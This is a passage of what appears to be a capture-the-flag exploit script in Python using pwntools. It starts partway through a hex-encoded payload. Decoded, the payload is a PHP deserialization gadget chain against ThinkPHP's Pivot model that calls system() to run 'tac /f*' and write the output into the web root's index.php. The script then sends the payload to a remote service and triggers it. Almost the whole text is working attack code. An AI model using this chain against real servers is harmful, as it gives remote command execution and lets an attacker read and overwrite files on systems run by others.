3A\x22\x00\x2A\x00\x73\x75\x66\x66\x69\x78\x22\x3B\x73\x3A\x34\x3A\x22\x68\x31\x78\x61\x22\x3B\x73\x3A\x38\x3A\x22\x00\x2A\x00\x74\x61\x62\x6C\x65\x22\x3B\x4F\x3A\x31\x37\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x6D\x6F\x64\x65\x6C\x5C\x50\x69\x76\x6F\x74\x22\x3A\x37\x3A\x7B\x73\x3A\x39\x3A\x22\x00\x2A\x00\x73\x75\x66\x66\x69\x78\x22\x3B\x73\x3A\x34\x3A\x22\x68\x31\x78\x61\x22\x3B\x73\x3A\x38\x3A\x22\x00\x2A\x00\x74\x61\x62\x6C\x65\x22\x3B\x4E\x3B\x73\x3A\x39\x3A\x22\x00\x2A\x00\x61\x70\x70\x65\x6E\x64\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x41\x41\x41\x41\x22\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x22\x3B\x61\x3A\x31\x3A\x7B\x69\x3A\x30\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x31\x31\x3A\x22\x00\x2A\x00\x77\x69\x74\x68\x41\x74\x74\x72\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x36\x3A\x22\x73\x79\x73\x74\x65\x6D\x22\x3B\x7D\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x64\x61\x74\x61\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x33\x39\x3A\x22\x74\x61\x63\x20\x2F\x66\x2A\x20\x3E\x2F\x76\x61\x72\x2F\x77\x77\x77\x2F\x68\x74\x6D\x6C\x2F\x70\x75\x62\x6C\x69\x63\x2F\x69\x6E\x64\x65\x78\x2E\x70\x68\x70\x22\x3B\x7D\x7D\x73\x3A\x31\x32\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x41\x73\x73\x6F\x63\x22\x3B\x62\x3A\x31\x3B\x7D\x73\x3A\x39\x3A\x22\x00\x2A\x00\x61\x70\x70\x65\x6E\x64\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x41\x41\x41\x41\x22\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x22\x3B\x61\x3A\x31\x3A\x7B\x69\x3A\x30\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x31\x31\x3A\x22\x00\x2A\x00\x77\x69\x74\x68\x41\x74\x74\x72\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x36\x3A\x22\x73\x79\x73\x74\x65\x6D\x22\x3B\x7D\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x64\x61\x74\x61\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x33\x39\x3A\x22\x74\x61\x63\x20\x2F\x66\x2A\x20\x3E\x2F\x76\x61\x72\x2F\x77\x77\x77\x2F\x68\x74\x6D\x6C\x2F\x70\x75\x62\x6C\x69\x63\x2F\x69\x6E\x64\x65\x78\x2E\x70\x68\x70\x22\x3B\x7D\x7D\x73\x3A\x31\x32\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x41\x73\x73\x6F\x63\x22\x3B\x62\x3A\x31\x3B\x7D\x7D\x00'

io = remote(address, port)

# context(arch='amd64', os='linux' , log_level='debug')
io.recvuntil(b'Exit\n')
io.sendline(b'1')
io.recvuntil(b'message:')
io.sendline(data)
io.recvuntil(b'Exit\n')
io.sendline(b'3')
time.sleep(3)
io.recvuntil(b'Exit\n')
io.sendline(b'3')
io.interactive()


```

